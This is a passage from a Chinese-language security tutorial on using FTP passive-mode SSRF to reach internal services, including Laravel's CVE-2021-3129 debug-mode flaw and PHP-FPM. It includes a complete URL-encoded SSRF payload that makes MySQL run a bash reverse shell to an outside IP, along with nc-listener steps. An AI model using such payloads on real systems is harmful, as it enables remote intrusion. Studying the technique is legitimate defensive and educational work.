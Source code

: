
开启 nc 监听，等待反弹shell：

最后直接构造请求发送 Payload：

    
    
    /?file=ftp://aaa@47.101.57.72:23/123&data=%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%3d%00%00%00%03%73%79%73%74%65%6d%20%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%34%37%2e%31%30%31%2e%35%37%2e%37%32%2f%32%33%33%33%20%30%3e%26%31%22%3b%01%00%00%00%01
    

如下图所示，成功反弹 Shell：

## 活学活用

###  Laravel Debug mode && FTP SSRF to RCE

Laravel 是一套简洁、开源的 PHP Web 开发框架，旨在实现 Web 软件的 MVC 架构。

2021 年 01 月 12 日，Laravel被披露存在一个远程代码执行漏洞（CVE-2021-3129）。当 Laravel 开启了 Debug
模式时，由于 Laravel 自带的 Ignition 组件对 `file_get_contents()` 和 `file_put_contents()`
函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意 Log 文件等方式触发 Phar 反序列化，最终造成远程代码执行：

  * vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php

该漏洞可以简化为以下两行：

    
    
    $contents = file_get_contents($parameters['viewFile']);
    file_put_contents($parameters['viewFile'], $contents);
    

可以看到这里主要功能点是：读取一个给定的路径 `$parameters['viewFile']`，并替换读取到的内容中的 `$variableName`
为`$variableName ?? ''`，之后写回文件中 `$parameters['viewFile']`，这相当于什么都没有做！

该漏洞的预期利用方法是重写日志文件然后使用 `phar://` 协议去触发 Phar 反序列化并实现 RCE。但有时候由于某些原因，我们无法是通过该方法进行
RCE，这时候我们便可以考虑本篇文章所讲的知识点，利用 FTP SSRF 攻击内网应用，从而寻找 RCE 的办法。

由于我们可以运行 `file_get_contents` 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送 HTTP
请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-
FPM。

众所周知，如果我们能向 PHP-FPM 服务发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与 `gopher://`
协议结合使用，curl支持 `gopher://` 协议，但 `file_get_contents` 和 `file_put_contents` 却不支持。

另一个已知的允许通过 TCP 发送二进制数据包的协议就是我们本文所讲的 FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从 FTP
服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个特定的 IP
和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。

现在，由于该 laravel 漏洞中 `file_get_contents` 和 `file_put_contents` 这两个函数在作祟，如果我们尝试使用
`viewFile=ftp://evil-server/file.txt` 来利用这个漏洞，会发生以下情况：

  * `file_get_contents` 连接到我们的FTP服务器，并下载 file.txt。
  * `file_put_contents` 连接到我们的FTP服务器，并将其上传回 file.txt。
